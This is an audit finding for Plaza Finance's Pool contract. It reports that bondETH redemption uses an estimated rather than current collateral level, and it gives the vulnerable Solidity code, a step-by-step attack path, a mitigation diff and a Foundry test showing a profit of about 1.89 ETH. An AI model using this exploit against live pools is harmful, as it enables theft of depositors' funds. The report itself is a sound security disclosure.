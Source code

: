 Able Wool Seagull

High

# Anyone Can Get Funds From This Contract.


### Summary
An attacker can purchase bondETH at a low price and sell it at a higher price.

### Root Cause
When selling `bondETH`, the `estimated collateralLevel` is utilized instead of the `current collateralLevel`.
By exploiting this vulnerability, an attacker can purchase `bondETH` at various prices and sell it for the maximum price of $100.

https://github.com/sherlock-audit/2024-12-plaza-finance/tree/main/plaza-evm/src/Pool.sol#L498
```solidity
    function getRedeemAmount(
        ...
    ) public pure returns(uint256) {
        ...
        uint256 tvl = (ethPrice * poolReserves).toBaseUnit(oracleDecimals);
        uint256 assetSupply = bondSupply;
        uint256 multiplier = POINT_EIGHT;

        // Calculate the collateral level based on the token type
        uint256 collateralLevel;
        if (tokenType == TokenType.BOND) {
498:        collateralLevel = ((tvl - (depositAmount * BOND_TARGET_PRICE)) * PRECISION) / ((bondSupply - depositAmount) * BOND_TARGET_PRICE);
        } else {
            ...
        }
        
        // Calculate the redeem rate based on the collateral level and token type
        uint256 redeemRate;
        if (collateralLevel <= COLLATERAL_THRESHOLD) {
            redeemRate = ((tvl * multiplier) / assetSupply);
        } else if (tokenType == TokenType.LEVERAGE) {
            redeemRate = ((tvl - (bondSupply * BOND_TARGET_PRICE)) / assetSupply) * PRECISION;
        } else {
            redeemRate = BOND_TARGET_PRICE * PRECISION;
        }

        if (marketRate != 0 && marketRate < redeemRate) {
            redeemRate = marketRate;
        }
        
        // Calculate and return the final redeem amount
        return ((depositAmount * redeemRate).fromBaseUnit(oracleDecimals) / ethPrice) / PRECISION;
    }
```

### Internal pre-conditions
`collateralLevel > 1.2`

### External pre-conditions
N/A

### Attack Path
The attacker purchases bondETH until the collateralLevel is less than 1.2 at various prices and then sells it all at the maximum price($100).

### PoC
The price calculation formula is as follows:
- When purchasing bondETH:
`tvl = (ethPrice * poolReserve)`, `collateralLevel = tvl / (bondSupply * 100)`.
If `collateralLevel <= 1.2`, `creationRate = tvl * 0.8 / bondSupply`.
If `collateralLevel > 1.2`,  `creationRate = 100`.
- When selling bondETH:
`tvl = (ethPrice * poolReserve)`, `collateralLevel = (tvl - bondToSell * 100) / ((bondSupply - bondToSell) * 100)`.
If `collateralLevel <= 1.2`, `redeemRate = tvl * 0.8 / bondSupply`.
If `collateralLevel > 1.2`,  `redeemRate = 100`.

Assuming: `poolReserve = 120 ETH`, `bondSupply = 3000 bondETH`, `levSupply = 200 levETH`, `ETH Price = $3075`
- When Alice buys bondETH for 30 ETH:
    `tvl = 3075 * 120 = 369000`, `collateralLevel = 369000 / (3000 * 100) = 1.23`, `creationRate = 100`.
    `minted = 30 * 3075 / 100 = 922.5 bondETH`.
    `poolReserve = 150 ETH`, `bondSupply = 3922.5`, `Alice's bondEth amount = 922.5 bondETH`.
- When Alice buys bondETH another 30 ETH:
    `tvl = 3075 * 150 = 461250`, `collateralLevel = 461250 / (3922.5 * 100) ~= 1.176 < 1.2`, `creationRate = 461250 * 0.8 / 3922.5 ~= 94.07`
    `minted = 30 * 3075 / (461250 * 0.8 / 3922.5) = 980.625`
    `poolReserve = 180 ETH`, `bondSupply = 4903.125`. `Alice's bondEth amount = 1903.125 bondETH`.
- When Alice sells all of her bondETH:
    `tvl = 3075 * 180 = 553500`, `collateralLevel = (553500 - 1903.125 * 100) / (3000 * 100) = 363187.5 / 300,000 = 1.210625 > 1.2`
    `redeemRate = 100`, `receivedAmount = 1903.125 * 100 / 3075 ~= 61.89 ETH`.
Thus, Alice extracts approximately 1.89 ETH from this market. 
When Alice first buys at the price(creationRate) of $100, the market price (marketRate) is also nearly $100, resulting in no significant impact from the market price(Even if the decimal of `marketRate` is correct).

Attacker can extract ETH until `collateralLevel` reaches `1.2`.
This amount is `(ethPrice * poolReserve - 120 * bondSupply) ($)`.
Even if `collateralLevel < 1.2`, bondETH owners could sell their bondETH and then extract ETH from this market.

### Impact
An attacker could extract significant amounts of ETH from this market.

### Mitigation
```diff
    function getRedeemAmount(
        ...
    ) public pure returns(uint256) {
        ...
        // Calculate the collateral level based on the token type
        uint256 collateralLevel;
        if (tokenType == TokenType.BOND) {
-498:        collateralLevel = ((tvl - (depositAmount * BOND_TARGET_PRICE)) * PRECISION) / ((bondSupply - depositAmount) * BOND_TARGET_PRICE);
+498:        collateralLevel = (tvl * PRECISION) / (bondSupply * BOND_TARGET_PRICE);
        } else {
            ...
        }
        
        // Calculate the redeem rate based on the collateral level and token type
        uint256 redeemRate;
        if (collateralLevel <= COLLATERAL_THRESHOLD) {
            redeemRate = ((tvl * multiplier) / assetSupply);
        } else if (tokenType == TokenType.LEVERAGE) {
            redeemRate = ((tvl - (bondSupply * BOND_TARGET_PRICE)) / assetSupply) * PRECISION;
        } else {
            redeemRate = BOND_TARGET_PRICE * PRECISION;
        }

        if (marketRate != 0 && marketRate < redeemRate) {
            redeemRate = marketRate;
        }
        
        // Calculate and return the final redeem amount
        return ((depositAmount * redeemRate).fromBaseUnit(oracleDecimals) / ethPrice) / PRECISION;
    }
```    

### Test Code
https://github.com/sherlock-audit/2024-12-plaza-finance/tree/main/plaza-evm/test/Pool.t.sol#L1156
Changed linked function to following code.

```solidity
  function testCreateRedeemWithFees() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)
    params.feeBeneficiary = address(0x942);

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 120 ether);
    rToken.approve(address(poolFactory), 120 ether);

    Pool pool = Pool(poolFactory.createPool(params, 120 ether, 3000 ether, 200 ether, "", "", "", "", false));
    vm.stopPrank();

    // User creates leverage tokens
    vm.startPrank(user);
    
    rToken.mint(user, 60 ether);
    mockPriceFeed.setMockPrice(3075 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

    uint256 usedEth = 60 ether;
    uint256 receivedEth = 0;
    uint256 buyTime = 2;
    uint256 sellTime = 1;
    rToken.approve(address(pool), usedEth);
    uint256 bondAmount = 0;

    console2.log("Before Balance:", rToken.balanceOf(user));
    assertEq(rToken.balanceOf(user), 60 ether);
    for (uint256 i = 0; i < buyTime; i++) {
      bondAmount += pool.create(Pool.TokenType.BOND, usedEth / buyTime, 0);
    }
    pool.bondToken().approve(address(pool), bondAmount);
    for (uint256 i = 0; i < sellTime; i++) {
      receivedEth += pool.redeem(Pool.TokenType.BOND, bondAmount / sellTime, 0);
    }
    console2.log(" After Balance:",rToken.balanceOf(user));
    assertLt(rToken.balanceOf(user), 60 ether);
    
    vm.stopPrank();

    // Reset state
    rToken.burn(user, rToken.balanceOf(user));
    rToken.burn(address(pool), rToken.balanceOf(address(pool)));
  }
```
forge test --match-test "testCreateRedeemWithFees" -vv

Result:
>[FAIL: assertion failed: 61890244154579369433 >= 60000000000000000000] testCreateRedeemWithFees() (gas: 2190059)
>Logs:
>  Before Balance: 60000000000000000000
>   After Balance: 61890244154579369433



